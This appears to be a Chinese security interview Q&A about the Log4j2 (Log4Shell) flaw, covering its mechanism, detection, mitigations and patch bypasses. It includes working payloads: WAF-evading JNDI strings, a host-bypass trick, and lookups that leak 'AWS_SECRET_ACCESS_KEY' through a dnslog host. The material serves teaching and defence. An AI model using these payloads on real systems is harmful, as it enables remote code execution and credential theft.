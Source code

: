## Log4j2

### 谈谈Log4j2漏洞（★★）

漏洞原理其实不难，简单来说就是对于`${jndi:}`格式的日志默认执行`JndiLoop.lookup`导致的RCE。日志的任何一部分插入`${}`都会进行递归处理，也就是说`log.info/error/warn`等方法如果日志内容可控，就会导致这个问题。这个漏洞本身不复杂，后续的绕过比较有趣



### Log4j2漏洞的黑盒检测（★）

由于该漏洞的特性，必须要出网才可以检测，例如`dnslog`的方式

在内网中也可不使用`dnslog`而是自行实现伪`JDNI/LDAP`的服务端用于探测



### Log4j2漏洞的白盒检测（★）

检查`pom.xml`或`gradle`中的依赖，是否存在`log4j2-api`和`log4j2-core`小于`2.15.0`则存在漏洞



### Log4j2的紧急修复手段（★★）

在JVM参数中添加`-Dlog4j2.formatMsgNoLookups=true`

系统环境变量中将`LOG4J_FORMAT_MSG_NO_LOOKUPS`设置为`true`

创建`log4j2.component.properties`文件并增加配置`log4j2.formatMsgNoLookups=true`

不重启应用情况下的修复手段参考另一个问题



### 知道Log4j2 2.15.0 RC1修复的绕过吗（★★★）

修复内容限制了协议和HOST以及类型，其中类型这个东西其实没用，协议的限制中包含了`LDAP`等于没限制。重点在于HOST的限制，只允许本地localhost和127.0.0.1等IP。但这里出现的问题是，加入了限制但没有捕获异常，如果产生异常会继续`lookup`所以如果在URL中加入一些特殊字符，例如空格，即可导致异常绕过HOSOT限制，然后`lookup`触发RCE



### Log4j2的两个DOS CVE了解吗（★★）

其中一个DOS是`lookup`本身延迟等待和允许多个标签`${}`导致的问题

另一个DOS是嵌套标签`${}`递归解析导致栈溢出



### Log4j2 2.15.0正式版的绕过了解吗（★★★）

正式版的修复只是在之前基础上捕获了异常。这个绕过本质还是绕HOST限制。使用`127.0.0.1#evil.com`即可绕过，需要服务端配置泛域名，所以#前的127.0.0.1会被认为是某个子域名，而本地解析认为这是127.0.0.1绕过了HOST的限制。但该RCE仅可以在MAC OS和部分Linux平台成功



### Log4j2绕WAF的手段有哪些（★★）

使用类似`${::-J}`的方式做字符串的绕过，还可以结合`upper`和`lower`标签进行嵌套

有一些特殊字符的情况结合大小写转换有巧妙的效果，还可以加入垃圾字符

例如：`${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}`



### Log4j2除了RCE还有什么利用姿势（★★★）

利用其他的`lookup`可以做信息泄露例如`${env:USER}`和`${env:AWS_SECRET_ACCESS_KEY}`

在`SpringBoot`情况下可以使用`bundle:application`获得数据库密码等敏感信息，不过`SpringBoot`默认不使用`log4j2`

这些敏感信息可以利用`dnslog`外带`${jndi:ldap://${java:version}.xxx.dnslog.cn}`



### 不停止运行程序如何修复Log4j2漏洞（★★★）

利用JavaAgent改JVM中的字节码，可以直接删了`JndiLookup`的功能

有公众号提出类似`Shiro`改`Key`的思路，利用反射把`JndiLookup`删了也是一种办法